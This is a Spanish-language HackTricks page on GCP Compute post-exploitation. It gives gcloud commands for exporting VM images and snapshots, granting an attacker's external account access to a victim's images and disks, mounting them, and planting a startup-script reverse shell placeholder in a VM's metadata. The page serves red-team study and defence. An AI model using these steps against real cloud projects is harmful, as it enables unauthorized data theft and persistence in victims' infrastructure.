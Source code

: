 # GCP - Compute Post Exploitation

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Compute

Para más información sobre Compute y VPC (Networking) revisa:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imágenes localmente

Esto permitiría a un atacante **acceder a los datos contenidos dentro de imágenes ya existentes** o **crear nuevas imágenes de VMs en ejecución** y acceder a sus datos sin tener acceso a la VM en ejecución.

Es posible exportar una imagen de VM a un bucket y luego descargarla y montarla localmente con el comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Para realizar esta acción, el atacante podría necesitar privilegios sobre el bucket de almacenamiento y, sin duda, **privilegios sobre cloudbuild** ya que es el **servicio** que se va a solicitar para realizar la exportación.\
Además, para que esto funcione, el SA de codebuild y el SA de compute necesitan permisos privilegiados.\
El SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` necesita:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Y el SA `<project-id>-compute@developer.gserviceaccount.com` necesita:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspeccionar Snapshots y Discos localmente

No es posible exportar directamente snapshots y discos, pero es posible **transformar un snapshot en un disco, un disco en una imagen** y siguiendo la **sección anterior**, exportar esa imagen para inspeccionarla localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeccionar una Imagen creando una VM

Con el objetivo de acceder a los **datos almacenados en una imagen** o dentro de una **VM en ejecución** desde donde un atacante **ha creado una imagen,** es posible otorgar acceso a una cuenta externa sobre la imagen:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
y luego crea una nueva VM a partir de ella:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si no pudieras dar acceso a tu cuenta externa sobre la imagen, podrías lanzar una VM usando esa imagen en el proyecto de la víctima y **hacer que los metadatos ejecuten un reverse shell** para acceder a la imagen añadiendo el parámetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspeccionar un Snapshot/Disco adjuntándolo a una VM

Con el objetivo de acceder a los **datos almacenados en un disco o un snapshot, podrías transformar el snapshot en un disco, un disco en una imagen y seguir los pasos anteriores.**

O podrías **otorgar acceso a una cuenta externa** sobre el disco (si el punto de partida es un snapshot, da acceso sobre el snapshot o crea un disco a partir de él):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Adjuntar el disco** a una instancia:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monta el disco dentro de la VM:

1.  **SSH en la VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifica el Disco**: Una vez dentro de la VM, identifica el nuevo disco listando los dispositivos de disco. Normalmente, puedes encontrarlo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatea y Monta el Disco** (si es un disco nuevo o sin formato):
*   Crea un punto de montaje:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monta el disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si **no puedes dar acceso a un proyecto externo** al snapshot o disco, es posible que necesites **realizar estas acciones dentro de una instancia en el mismo proyecto que el snapshot/disco**.

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
